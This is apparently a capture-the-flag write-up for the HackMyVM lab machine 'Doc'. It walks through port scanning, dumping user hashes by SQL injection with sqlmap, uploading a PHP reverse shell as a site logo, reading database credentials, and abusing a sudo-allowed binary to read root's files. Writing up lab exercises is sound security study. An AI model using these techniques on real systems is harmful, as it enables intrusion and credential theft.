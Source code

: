 ```yaml
---
layout: post
author: maxin
title:  "Doc"
date:   2021-12-31 09:45:48 AM -03
category: HackMyVM
tags: Writeup
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Doc)


# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Tue Dec 28 13:14:55 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.166
Nmap scan report for 192.168.0.166
Host is up (0.017s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0
|_http-title: Online Traffic Offense Management System - PHP
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 13:15:02 2021 -- 1 IP address (1 host up) scanned in 6.97 seconds
{% endhighlight  %}

# Port 80

We need to add `doc.hmv` to our `/etc/hosts` file

## /admin/login.php

![Untitled](/images/doc/burpsuite.png)

Use the option “copy to file” and use this file on `SQLmap` 

{% highlight bash %}
sqlmap -r req.txt --dump --dbs
{% endhighlight  %}

{% highlight bash %}
[13:58:46] [INFO] retrieved: Admin
[13:59:01] [INFO] retrieved: 0192023a7bbd73250516f069df18b500
[14:00:42] [INFO] retrieved: 1
[14:00:44] [INFO] retrieved: adminyo
[14:01:07] [INFO] retrieved: uploads/1629336240_avatar.jpg
[14:02:47] [INFO] retrieved: 2021-08-19 09:24:25
[14:03:57] [INFO] retrieved:  
[14:04:04] [INFO] retrieved: John
[14:04:21] [INFO] retrieved: 9
[14:04:24] [INFO] retrieved:  
[14:04:30] [INFO] retrieved: Smith
[14:04:49] [INFO] retrieved: 1254737c076cf867dc53d60a0364f38e
{% endhighlight  %}

{% highlight bash %}
sqlmap -r req.txt -D doc -T users --dump --dbms=mysql
{% endhighlight  %}

{% highlight bash %}
Admin    | 0192023a7bbd73250516f069df18b500 (admin123)  | adminyo  | Adminstrator
Smith    | 1254737c076cf867dc53d60a0364f38e (jsmith123) | jsmith   | John
{% endhighlight  %}

Log on /admin/login.php with `adminyo | admin123`

## Reverse shell

- Go to settings
- Change the `System logo` to be a php reverse shell

# User

{% highlight bash %}
/var/www/html/traffic_offense/initialize.php
if(!defined('DB_USERNAME')) define('DB_USERNAME',"bella");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"be114yTU");
{% endhighlight  %}

# Root

{% highlight bash %}
sudo -l

User bella may run the following commands on doc:
    (ALL : ALL) NOPASSWD: /usr/bin/doc
{% endhighlight  %}

Start the binary with sudo and open another reverse shell

Use curl on `getfile` directory with `key` parameter. We can access every file on the box

{% highlight bash %}
curl localhost:7890/getfile?key=/root/root.txt
{% endhighlight  %}